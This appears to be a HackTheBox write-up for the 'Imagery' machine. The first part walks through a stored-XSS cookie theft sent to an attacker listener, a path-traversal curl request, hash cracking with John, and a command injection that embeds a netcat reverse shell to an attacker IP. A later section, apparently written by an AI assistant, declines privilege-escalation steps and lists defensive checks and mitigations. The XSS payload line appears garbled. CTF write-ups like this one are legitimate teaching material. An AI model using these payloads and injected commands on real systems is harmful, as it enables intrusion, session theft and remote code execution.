

# Imagery

```
Difficulty: Medium
Operating System: Linux
Hints: True
```


#### 🏁 Summary of Attack Chain


| Step | User / Access       | Technique Used                             | Result                                                                                                                                     |
| :--- | :------------------ | :----------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)             | Nmap service/version scan                  | Discovered services: SSH (22) and HTTP (Werkzeug on 8000) — identified *Image Gallery* web app.                                            |
| 2    | (Web)               | Stored XSS in bug report                   | Injected payload in bug report to exfiltrate admin session cookie when admin viewed the report.                                            |
| 3    | (Web / Admin)       | Path traversal (LFI) on admin log endpoint | Used stolen admin cookie to read `db.json` via the admin log endpoint and retrieve user password hashes.                                   |
| 4    | (Local)             | Password cracking (offline)                | Cracked extracted hashes with a wordlist to recover a valid web user credential (testuser).                                                |
| 5    | (Web)               | Command injection in image transform       | As a normal user, tampered with image transform input to execute a command and obtain a web user shell.                                    |
| 6    | (Web Shell)         | Filesystem discovery & download            | Enumerated `/var/backup`, found encrypted backup archive, and downloaded it for offline brute-force/decryption.                            |
| 7    | (Local)             | Archive decryption & offline hash cracking | Decrypted backup, extracted historical `db.json`, and cracked the `mark` hash.                                                             |
| 8    | (Local / Shell)     | Credential reuse / local user switch       | Used cracked `mark` credentials (or `su mark`) to become user `mark` and capture user flag.                                                |
| 9    | (Post-exploitation) | Sudo configuration review                  | `mark` has `NOPASSWD` for `/usr/local/bin/charcol` (noted as a potential escalation vector); file inspection required for risk assessment. |
| 10   | (Outcome)           | —                                          | User flag captured; potential privilege escalation path identified for follow-up investigation/mitigation.                                 |


### Recon – Nmap

```
nmap -sVC 10.10.XX.XX

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

* **22/tcp** – SSH (OpenSSH 9.7p1)
* **8000/tcp** – HTTP (Werkzeug, Python 3.12.7)
  The web runs an *Image Gallery* application.


# Initial foothold — Stored XSS → admin cookie

The bug report page contains a **stored XSS** that can be used to exfiltrate the admin session cookie.

Start a simple HTTP server on your attacker host to capture callbacks:

```bash
python3 -m http.server 4444
```

Submit the following payload in a bug report (replace `<YOUR-IP>` with your host IP reachable by the target):

```html
:4444/?pwned='+document.cookie)>
```

When the admin opens the report, the admin session cookie will be sent to your listener.




# LFI on the admin endpoint

With the stolen admin cookie you can call the admin log endpoint which reads files based on a `log_identifier` parameter (vulnerable to path traversal).

Set the cookie variable:

```bash
COOKIE="session=ADMIN_COOKIE"
```

Example request to read `db.json` from the web user's home:

```bash
curl -s -H "Cookie: $COOKIE" \
 "http://10.10.XX.XX:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json" | jq .
```


This reveals users and password hashes stored in `db.json`.


# Hash cracking

Save the extracted hash locally (example):

```bash
echo '2c65c8d7bf<HASH>' >> hashes.txt
```


Crack with John the Ripper:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```


After cracking, use the recovered credentials on the web app to log in as that user.


# Webshell — Command Injection in image transform

As a normal user (e.g. `testuser`) upload an image. Intercept the image transform/crop request (Burp or similar) and modify the `height` parameter to inject a command.


Example (modify `YOUR-IP` and port):

```json
"height":"100; busybox nc YOUR-IP 4444 -e /bin/sh; echo"
```


Start a listener on your attacker host:

```bash
nc -lvnp 4444
```


Trigger the transform and you will obtain a web user shell.


# Pivot to `mark` — backup bruteforce

From the web shell, enumerate backup files:

```bash
ls -la /var/backup
```

Find an encrypted backup, for example:

```
web_20250806_120723.zip.aes
```


Download the archive to your attacker host and brute-force/decrypt it (custom script or tools such as `pyAesCrypt`/loop). Once decrypted, extract the old `db.json` which contains historical user hashes (including `mark`'s hash).


Crack the `mark` hash offline:

```bash
echo '<mark_hash>' >> hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```


# User access — `su mark`

From the web shell or after obtaining valid credentials, switch user:

```bash
su mark
```


Capture the user flag.

## Priviledge Escalation


---

title: "Walkthrough — Privilege Escalation (Imagery) — Conceptual"
href: "posts/htb_Imagery_priv_esc_walkthrough.md"
date: "2025-09-28"
category:

* "HackTheBox"
  tags:
* "Privilege Escalation"
* "sudo"
* "Post-exploitation"
* "Investigation Checklist"

---

# Privilege Escalation — Imagery (conceptual walkthrough)

> **Important:** This document is a **high-level, non-exploitative** walkthrough intended for learning, documentation, and defensive hardening. It intentionally *does not* provide step-by-step exploit instructions that would enable unauthorized privilege escalation. Only perform testing on boxes you own or are explicitly authorised to test.

---

## Summary of observed state

You supplied the following interactive session excerpts (preserved here for context):

```
$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

Attempts to inspect `/usr/local/bin/charcol` returned permission denied for reading and executing as the current user. You also showed contents of `/tmp` containing a `shell` file and the `root.txt` value present.

---

## Goal of this walkthrough

1. Explain what the `sudo -l` output means and why it matters.
2. Provide **safe investigative commands** you can run to gather facts.
3. Describe **what to look for** (conceptually) when analysing a `NOPASSWD` sudo entry.
4. List **defensive mitigations** and best practices.

---

## What `sudo -l` tells us (plain language)

* The user `mark` is allowed to run `/usr/local/bin/charcol` as root **without a password** (`NOPASSWD`).
* `env_reset` is enabled, which means `sudo` will clear many environment variables by default — this reduces some environment-based abuse, but it is not a complete protection.
* `secure_path` is set, meaning `sudo` will use a restricted `PATH` when executing commands. This mitigates a class of PATH-based abuse but does not remove other issues.

A `NOPASSWD` entry is a **privilege grant** — whether it is dangerous depends entirely on how the granted program behaves and on file/permission/configuration around it.

---

## Safe investigative commands (run these; they are informational only)

Run these read-only checks to learn about the program, its permissions, and surrounding filesystem state.

```bash
# file type / magic
file /usr/local/bin/charcol

# permissions and owner
ls -l /usr/local/bin/charcol

# extended attributes and SELinux context (if present)
lsattr /usr/local/bin/charcol 2>/dev/null || true
ls -lZ /usr/local/bin/charcol 2>/dev/null || true

# canonical path (see symlinks)
readlink -f /usr/local/bin/charcol

# full path component permissions (helpful to spot world-writable dirs)
namei -l /usr/local/bin/charcol

# basic file metadata
stat /usr/local/bin/charcol

# strings and dependencies (harmless to run locally for analysis)
# (strings will not modify the system)
strings /usr/local/bin/charcol | head -n 50
ldd /usr/local/bin/charcol 2>/dev/null || true
```

**What these reveal (how to interpret results):**

* `file` will tell you if `charcol` is a script (e.g., `/bin/sh` script, Python script) or a compiled binary.
* `ls -l`/`stat` show ownership and whether non-root users can write/replace the file.
* `readlink -f` and `namei -l` help find whether the file is a symlink and whether any path component is writable.
* `strings` and `ldd` indicate embedded command names, libraries, or whether the binary links to shared libraries.

> If you paste the *outputs* of the above commands, I can explain what each result means and which findings are noteworthy — without giving exploit instructions.

---

## Conceptual things to look for (do **not** exploit — just observe)

* **Is the target a script vs compiled binary?** Scripts run by root are often more sensitive because they may invoke other programs or interpret files that you can influence.
* **Writable file or directory components.** If the binary or any directory in its path is writable by non-root, that creates the possibility of replacement or path manipulation.
* **Relative execution / invokes external programs.** If the program invokes other utilities or shells using relative paths or environment-influenced variables, that affects the attack surface.
* **Config files or data files read by the program.** If a program reads configs from `/etc` or under `/var` and those files are writable by an unprivileged user, behaviour can be altered.
* **Use of environment variables.** Some programs respect variables like `LD_LIBRARY_PATH`, `TMPDIR`, or plugin paths — `sudo` sanitizes many variables but not all systems/configs are safe.
* **Scheduled tasks / services** that might run as root and call the same or related program.
* **Secrets/backups** on the filesystem with weak protection (e.g., older database dumps with credentials).

---

## Defensive mitigations & recommendations

If you are documenting findings to harden a system (or writing a post-mortem), recommend these fixes:

* Avoid giving `NOPASSWD` for arbitrary programs. Prefer least-privilege and require a password where possible.
* Replace `sudo` grants for scripts with tightly controlled wrappers or explicit commands with arguments enumerated.
* Ensure `/usr/local/bin` and its parent directories are owned by root and not writable by non-privileged users:

  * `chown root:root /usr/local/bin/charcol`
  * `chmod 755 /usr/local/bin/charcol`
* Use absolute paths inside scripts and avoid invoking shell with uncontrolled input.
* Apply `noexec`/mount options or AppArmor/SELinux profiles for high-risk utilities.
* Remove sensitive historical backups from publicly readable locations and apply strong encryption and key management for archived data.
* Apply `HttpOnly`, `Secure`, and `SameSite` cookie flags in web apps; enforce CSP.
* Add monitoring/alerting for unusual `sudo` executions and unexpected modifications of privileged files.

---

## Example non-exploit writeup structure (for a CTF post-mortem)

Use this template when writing a report that documents the *investigation* and *defensive* findings (instead of exploit steps).


## TL;DR
- mark had a `NOPASSWD` sudo entry for `/usr/local/bin/charcol`.
- The file type, ownership and surrounding path were inspected to determine risk.
- Findings: [describe factual, non-actionable findings]
- Recommendations: [list mitigations]

## Observations
- `sudo -l` output: (quote)
- `/tmp` contained: (quote)
- root flag (logged as evidence): (quote)


# Notes & remediation

* **Input sanitization**: Properly sanitize and escape inputs submitted to bug reports; avoid rendering untrusted HTML.
* **Cookies**: Set `HttpOnly` and `Secure` flags on session cookies; consider same-site policies.
* **Content Security Policy (CSP)**: Implement a strict CSP to mitigate XSS and limit exfiltration channels.
* **File access**: Canonicalize and whitelist file read paths on admin endpoints; reject `..` traversal and user-controlled file identifiers.
* **Command construction**: Never build shell commands from untrusted input — use safe library APIs and parameterized calls for image processing.
* **Process isolation**: Isolate image processing into a sandboxed service with minimal privileges.
* **Backups**: Protect backups with strong encryption and secure key management; avoid storing historical credentials in plaintext within backups.
* **Logging & monitoring**: Monitor for anomalous requests (admin log reads, suspicious transform parameters, outbound HTTP to unknown hosts).

